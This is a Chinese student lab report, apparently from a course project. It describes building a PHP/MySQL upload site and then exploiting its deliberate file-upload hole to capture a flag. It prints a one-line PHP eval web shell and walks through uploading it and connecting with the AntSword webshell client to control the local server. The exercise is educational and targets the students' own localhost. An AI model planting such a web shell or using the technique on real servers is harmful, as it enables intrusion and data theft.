



# 「320垃圾回收站」综合实践

## 文件上传漏洞的实现和文件上传漏洞Flag

### 实践目的及内容

- 本次项目目的是设计出一个可以实现注册、登录、文件上传以及下载功能，并通过MySQL数据库保存用户信息及上传文件信息的具有实用性功能的网站
- 该实验报告描述了网站修改前的文件上传漏洞以及文件上传漏洞中Flag的查找

### 实验环境

- PHP
- phpMyAdmin
- XAMPP
- Apache
- MySQL
- 中国蚁剑(AntSword)
  
### 实验步骤

#### 实验环境搭建

（实验环境参照胡菲桐、赵雨萌实验报告安装）

- 安装xampp
- 添加系统变量，将php.exe文件所在的路径`D:\xampp\php`添加至`环境变量-系统变量-path`
- 检查环境变量配置，在cmd中输入`php -v`检查是否配置成功
  
- 在VSCode中添加`PHP Server`和`Open PHP/HTML/JS In Browser`
- 设置 `Open PHP/HTML/JS In Browser`
  
  php文件路径设置：你xampp应用中文件夹htdocs在电脑中的路径`D:\xampp\htdocs\`
  
  (php文件记得放在htdocs文件夹里，这样才能运行)
- 点击VSCode的`文件-首选项-设置`，在设置的扩展中找到`setting.json`做以下修改
  
- 下载phpMyAdmin并解压到xampp文件夹中
- 复制一份解压后文件夹中的`config.sample.inc.php`并重命名为`config.inc.php`
  打开复制后的文件做出如下修改
  
- 打开xampp，根据要求开启服务`Apache`和`MySQL`
  
- 在浏览器打开[phpMyAdmin](http://localhost/phpmyadmin/)
  新建数据库`login_db`，并在该数据库中创建`user`表，如下图所示
  

#### 文件上传漏洞实验过程

- 编写`upload.php`实现文件的上传功能，以及文件上传页，并与同组同学所编写好的网站其他功能页进行连接
- 打开网页，登陆注册后进入文件上传页面
  

##### 文件上传测试
- 文件上传测试，上传测试图片`test.jpg`
  
- 检查本地`uploadFiles`文件夹，发现图片已成功上传
  

##### 文件上传漏洞利用

- 编写一句话木马
  ```
  <?php eval($_POST['eval']); ?>
  ```
- 将一句话木马上传到服务器中
  
- 通过页面显示的文件路径可以看到一句话木马所在的位置
  ```
  http://localhost/320-bug_Final/%E6%BA%90%E7%A0%81/source/uploadFiles/eval.php
  ```
- 安装`中国蚁剑（AntSword）`，安装教程附在最后参考链接
- 用中国蚁剑去连接到该木马所在的位置
  
- 连接成功，现在可以控制服务器中的数据进行读取，下载，修改，删除等操作
  

##### 文件上传漏洞Flag查找

- 利用蚁剑访问到服务器后，开始在服务器里的各级菜单查找Flag
- 发现在`source`文件夹下有一个叫做`guesswhereiam`的文件夹
- 访问该文件夹，发现Flag
  
  

### 参考链接

- [VScode调试php文件（详细且简单易操作）](https://blog.csdn.net/xin279y/article/details/125690259)
- [登陆网站&上传文件漏洞搭建&补洞](https://blog.csdn.net/plant1234/article/details/121725088)
- [中国蚁剑(AntSword)安装](https://chenchena.blog.csdn.net/article/details/123427001)